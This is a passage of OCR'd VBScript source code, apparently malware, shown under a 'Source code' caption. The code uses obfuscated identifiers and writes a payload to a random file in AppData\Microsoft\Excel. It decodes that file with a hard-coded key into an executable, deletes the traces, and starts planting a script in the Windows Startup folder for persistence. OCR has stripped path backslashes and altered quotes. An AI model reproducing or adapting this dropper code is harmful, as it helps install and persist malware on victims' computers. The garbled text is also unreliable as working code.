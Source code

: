 ```
else mzrI=0
End If
Loop
jIFy.Close
If HHHm.Fileexists(FCkE) Then HHHm.DeleteFile FCkE
vHqt.Close
Set vHqt = Nothing
Set NgjR = Nothing
Set jIFy = Nothing
Set HHHm = Nothing
On Error Goto 0
End Function

Function GetHKcc( KCel )
Dim joCE, msKq( )
ReDim msKq( Len( KCel ) - 1 )
For joCE = 0 To UBound( msKq )
msKq(joCE) = Asc( Mid( KCel, joCE + 1, 1 ) )
Next
GetHKcc = msKq
End Function

Function pdBR(ByVal QopZ)
Dim qsGf
Const EhpF = “abcdefghijklmnopqrstuvwxyz0123456789”
Randomize
For joCE = 1 To QopZ
qsGf = qsGf &amp; Mid(EhpF, Int(36 * Rnd + 1), 1)
Next
pdBR = qsGf
End Function

Sub save(data)
Dim vNsF
vNsF = “1”
vNsF = pdBR(5)
Set CQLk = CreateObject(“Scripting.FileSystemObject”)
Set jSmA = CreateObject(“ADODB.Stream”)
On Error Resume Next
jSmA.Open
jSmA.Type = 1
jSmA.Write (data)
jSmA.Position = 0
Set CQLk = Nothing
jSmA.SaveToFile “C:UsersShytAppDataRoamingMicrosoftExcel”+ vNsF +”.txt”
jSmA.Close
WScript.Sleep 7273
Set PaKX = CreateObject(“Scripting.FileSystemObject”)
Set lCPt = PaKX.GetFile(“C:UsersShytAppDataRoamingMicrosoftExcel”+ vNsF +”.txt”)
If lCPt.Size &lt; 1025 Then lCPt.Delete
Dim arrHKcc, kcEE
arrHKcc = GetHKcc( “9AC9AA87”)
kcEE = Encode( “C:UsersShytAppDataRoamingMicrosoftExcel”+ vNsF +”.txt”, “C:UsersShytAppDataRoamingMicrosoftExcel”+vNsF+”.exe”, arrHKcc )
WScript.Sleep 6425
If PaKX.FileExists( “C:UsersShytAppDataRoamingMicrosoftExcel”+ vNsF +”.txt” ) Then PaKX.DeleteFile “C:UsersShytAppDataRoamingMicrosoftExcel”+ vNsF +”.txt”
If PaKX.FileExists( “C:UsersShytAppDataRoamingMicrosoftExcel”+vNsF+”.exe” ) Then
Set DeCQ = PaKX.CreateTextFile(“C:UsersShytAppDataRoamingMicrosoftWindowsStart MenuProgramsStartup”+ vNsF +”.vbs”, True, True)
DeCQ.Write “On Error Resume Next” &amp; vbCrLf
DeCQ.Write “Set PaKX = CreateObject(“”Scripting.FileSystemObject””)”&amp; vbCrLf
```
